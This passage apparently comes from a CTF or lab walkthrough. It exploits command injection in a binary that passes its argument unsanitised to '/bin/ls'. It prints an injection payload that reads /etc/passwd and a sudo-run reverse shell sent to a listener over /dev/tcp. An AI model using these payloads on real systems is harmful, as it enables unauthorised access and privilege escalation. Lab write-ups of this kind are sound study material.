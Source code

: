 
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250604165318.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250604165325.png)

We got a nice approach on how to get root access, the binary basically expects exactly one argument (besides the binary name). If you pass one argument, it calls `execute_command(arg)`. Otherwise, it just prints a usage message and exits.

This matters because this binary is vulnerable to `command injection`, 

```
snprintf(buf, 0x100, "%s %s", "/bin/ls", param_1)
```

Simply concatenates `"/bin/ls"` and `param_1` (without any sanitization), we can put shell metacharacters (like `;`, `&&`, `|`, etc.) in `param_1` to chain commands.

First of all, we can migrate from `www-data` to `codebase` using the password `malware`, this seem to be the right answer from the riddle, which is weird because it should be trojan but since trojan is a type of malware, it makes sense.

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250604165614.png)

Now, let's go to testing the command injection, we already know how it works, so, we can simply try this:

```
./code ";cat /etc/passwd"
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250604165646.png)

As seen, it works, let's start a listener and send ourselves a reverse shell, if we check our sudo -l permissions, we can check this:


```
codebad@ac11496ac62b:~$ sudo -l
Matching Defaults entries for codebad on ac11496ac62b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User codebad may run the following commands on ac11496ac62b:
    (metadata : metadata) NOPASSWD: /home/codebad/code
```

Knowing this, we can receive a shell as metadata with:

```
sudo -u metadata /home/codebad/code "; /bin/bash -c 'bash -i >& /dev/tcp/192.168.200.136/9001 0>&1'"
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250604170308.png)

Nice, we got a shell as this user, let's stabilize it first:

